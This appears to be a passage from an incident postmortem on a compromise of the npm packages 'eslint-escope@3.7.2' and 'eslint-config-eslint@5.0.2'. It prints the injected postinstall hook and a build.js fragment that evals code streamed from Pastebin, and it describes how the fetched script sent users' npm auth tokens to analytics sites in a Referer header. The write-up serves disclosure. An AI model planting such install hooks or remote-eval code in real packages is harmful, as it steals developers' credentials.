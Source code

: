 The attacker modified `package.json` in both `eslint-escope@3.7.2` and `eslint-config-eslint@5.0.2`, adding a `postinstall` script to run `build.js`.

```diff
{
+ "postinstall": "node ./lib/build.js",
}
```

#### `build.js`

This script downloads another script from Pastebin and `eval`s its contents.

Some people have reported that this code has an issue:

```js
r.on("data", c => {
  eval(c);
});
```

Because it doesn't wait for the request to complete, it is possible for the reqeuest to only send part of the script and the `eval` call to fail with a `SyntaxError`, which is how the issue was discovered.

#### pastebin (https://pastebin.com/XLeVP82h, taken down)

The script extracts the `_authToken` from a user's `.npmrc` and sends it to `histats` and `statcounter` inside the `Referer` header.